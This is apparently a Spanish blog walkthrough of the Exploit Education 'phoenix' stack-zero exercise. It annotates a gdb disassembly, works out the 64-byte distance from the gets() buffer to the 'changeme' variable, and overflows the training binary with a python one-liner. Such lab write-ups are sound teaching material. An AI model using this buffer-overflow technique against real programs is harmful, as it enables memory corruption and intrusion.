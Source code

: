 
En este post nos vamos a meter con los retos de "phoenix" de exploit education, a diferencia de protostar, hablamos de 64 bits, el estandar actual.

## Stack-Zero

El stack Zero como reto inicial, no porpone ninguna dificultad, ya que simplemente se trata de desbordar el buffer metiendole demasaida "basura"
al programa.

Para profundizar más en el lenguaje a bajo nivel, bamos a desensamblar este bianrio. Vamo a analizarlo por partes.

```
(gdb) disas main
Dump of assembler code for function main:
  ----------------------------------------------------------------------
   0x00000000004005dd <+0>:     push   rbp
   0x00000000004005de <+1>:     mov    rbp,rsp
   0x00000000004005e1 <+4>:     sub    rsp,0x60   # Preparar una pila de 0x60 de tamaño, desde rsp
   0x00000000004005e5 <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x00000000004005e8 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
  ----------------------------------------------------------------------
   0x00000000004005ec <+15>:    mov    edi,0x400680 
   0x00000000004005f1 <+20>:    call   0x400440 <puts@plt> 
[ #### (gdb) x/s 0x400680   # Metemos el edi el argumnto de puts, segun calling conventions.    ]
[ 0x400680:       "Welcome to phoenix/stack-zero, brought to you by https://exploit.education"  ]
  ---------------------------------------------------------------------- 
   0x00000000004005f6 <+25>:    mov    DWORD PTR [rbp-0x10],0x0
[ #### (gdb) x/x $rbp-0x10    # O sea aqui tenemos la famosa varaible "changme" que hay que rellenar  ]
[ 0x7fffffffe520: 0x00                                                                                ]
  ---------------------------------------------------------------------- 
   0x00000000004005fd <+32>:    lea    rax,[rbp-0x50]                 
   0x0000000000400601 <+36>:    mov    rdi,rax                        
   0x0000000000400604 <+39>:    call   0x400430 <gets@plt>            
[ #### (gdb) x/s $rbp-0x50    # Con las calling conventions metemos en rdi el argumento de gets, o sea nuestro input.  ]
[ 0x7fffffffe4e0: 'A' <repeats 11 times>                                                                               ]                                   
  ---------------------------------------------------------------------- 
   0x0000000000400609 <+44>:    mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040060c <+47>:    test   eax,eax       # Se ve si eax (changeme = rbp+0x10) ha sido modificado o no
   0x000000000040060e <+49>:    je     0x40061c <main+63>
   0x0000000000400610 <+51>:    mov    edi,0x4006d0      # Por aqui vamos si hemos hecho bien.
   0x0000000000400615 <+56>:    call   0x400440 <puts@plt>
   0x000000000040061a <+61>:    jmp    0x400626 <main+73>
[ #### (gdb) x/s 0x4006d0                                                 ]
[ 0x4006d0:       "Well done, the 'changeme' variable has been changed!"  ]
[ (gdb) x/x $rbp-0x10     # La varaible changme que hay que modificar     ]
[ 0x7fffffffe520: 0x00                                                    ]

  ---------------------------------------------------------------------- 
   0x000000000040061c <+63>:    mov    edi,0x400708    
   0x0000000000400621 <+68>:    call   0x400440 <puts@plt>
[ #### (gdb) x/s 0x400708                                                                    ]
[ 0x400708:       "Uh oh, 'changeme' has not yet been changed. Would you like to try again?" ]
  ----------------------------------------------------------------------  
   0x0000000000400626 <+73>:    mov    edi,0x0
   0x000000000040062b <+78>:    call   0x400450 <exit@plt>
   
(gdb) b *0x000000000040062b
(gdb) run
AAAAAAAAAAA
(gdb) x/40x $rsp
0x7fffffffe4d0: 0xffffe588      0x00007fff      0x00000000      0x00000001
0x7fffffffe4e0: 0x41414141      0x41414141      0x00414141      0x00000000
0x7fffffffe4f0: 0x00000000      0x00000000      0x00000000      0x00000000
0x7fffffffe500: 0x00000000      0x00000000      0xffffe588      0x00007fff
0x7fffffffe510: 0x00000001      0x00000000      0xffffe598      0x00007fff
0x7fffffffe520: 0x00000000      0x00000000      0x00000000      0x00000000
```
O sea que tanto analizando el ensamblador como la pila dicen que el input empieza en 0x7fffffffe4e0 y la variable a escribir esta en 0x7fffffffe520
```
(gdb) p/d 0x7fffffffe520 - 0x7fffffffe4e0 
$1 = 64
```
Buffer de 64 bits

```console
[user@phoenix-amd64:/opt/phoenix/amd64]:$  python -c "print 'A'* 64" | ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
[user@phoenix-amd64:/opt/phoenix/amd64]:$ python -c "print 'A'* 70" | ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

-----------------------------------------------------------------------------------------





